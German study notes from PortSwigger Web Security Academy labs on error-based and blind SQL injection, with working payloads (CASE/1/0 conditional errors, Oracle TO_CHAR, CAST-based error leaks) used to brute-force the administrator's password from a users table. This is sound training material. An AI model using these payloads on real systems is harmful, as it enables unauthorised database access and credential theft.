 ```yaml
---
created:
  - "{{date: DD-MM-YYYY}} {{time}}"
aliases:
  - "Course Code:"
  - PSS-Portswigger-Academy
tags:
  - Course/
---
```

## Was ist Error-Based SQL-Injection

Wie der Name schon sagt, anhand von Fehlermeldungen lässt sich diverses Verhalten zwischen App und Datenbank nachvollziehen und ggf. ausnutzen
- Man provoziert einen DB-Fehler **nur dann**, wenn eine getestete Bedingung zutrifft
	- Man verpackt die Bedingung in eine Ausdrucksform die bei True einen Fehler verursacht(z. B. Division durch Null)

Das könnte man dann wie folgt aufbauen:
```sql
xyz' AND (SELECT CASE WHEN (1=2) THEN 1/0 ELSE 'a' END)='a
xyz' AND (SELECT CASE WHEN (1=1) THEN 1/0 ELSE 'a' END)='a
```
Hier sehen wir das Ergebnis wenn unser Input false ist![[ERROR_BASED_SQLI1.png]]Hier sehen wir das Ergebnis wenn unser Input true ist![[ERROR_BASED_SQLI2.png]]

In diesem Fall benutzen wir den 'CASE' Aufruf
- In dem ersten Fall evaluieren wir zu a weil Ergebnis false
- In dem zweiten Fall evaluieren wir zu Error weil macht `1/0` und wir können nicht durch 0 teilen

Und dann kann man Anfragen wie folgt bauen:
```sql
xyz' AND (SELECT CASE WHEN (Username = 'Administrator' AND SUBSTRING(Password, 1, 1) > 'm') THEN 1/0 ELSE 'a' END FROM Users)='a
```

## Lab: Blind SQL injection with conditional errors(Oracle)

##### Passwortlänge herausfinden -> Im Intruder dann bruteforcen
```sql
TrackingId=EVe4hpFzFe2H0qvD' AND (SELECT CASE WHEN (LENGTH(password) > §20§) THEN TO_CHAR(1/0) ELSE 'a' END FROM users WHERE username='administrator') = 'a'--;
```

##### Passwort brute-forcen
```sql
TrackingId=EVe4hpFzFe2H0qvD' AND (SELECT CASE WHEN (SUBSTR(password, 1, 1) < 'a') THEN TO_CHAR(1/0) ELSE 'a' END FROM users WHERE username='administrator') = 'a'--;
```

Jetzt setzen wir folgendes PAYLOAD zusammen und bruteforcen jeden einzelnen Character![[ERROR_BASED_SQLI3.png]]Unser Turbo-Intruder liefert uns folgendes Ergebnis.![[ERROR_BASED_SQLI4.png]]


###  Auslegen von Daten durch Fehlernachrichten
 Gelegentlich kann auch die Fehlermeldung sensible Daten aus der tatsächlichen Abfrage enthalten.

```sql
Unterminated string literal started at position 52 in SQL SELECT * FROM tracking WHERE id = '''. Expected char
```

Diese Meldung zeigt die gesamte Abfrage, die die Anwendung aus den Eingaben konstruiert hat.
Dadurch lässt sich das Verhalten zwischen App und DB auch nochmal besser begutachten.
Das verwandelt die sonst blinde injection in eine visible injection.

Mit der `CAST()` Funktion können wir Datentypen in einen anderen konvertieren.
z. B.

```sql
CAST((SELECT example_column FROM example_table) AS int)
```
Oft sind die zu lesenden Daten Zeichenketten (Strings). Wenn du versuchst, diese in einen inkompatiblen Datentyp wie `int` zu konvertieren, kann das einen Fehler wie den folgenden erzeugen:

```sql
ERROR: invalid input syntax for type integer: "Example data"
```
Solche Abfragen sind außerdem nützlich, wenn ein Limit der Zeichenlänge verhindert, dass du konditionale Antworten (true/false) auslösen kannst - ein Fehler mit eingebettetem Inhalt kann dann die einzige Möglichkeit zur Datenexfiltration sein.


## Lab: Visible error-based SQL injection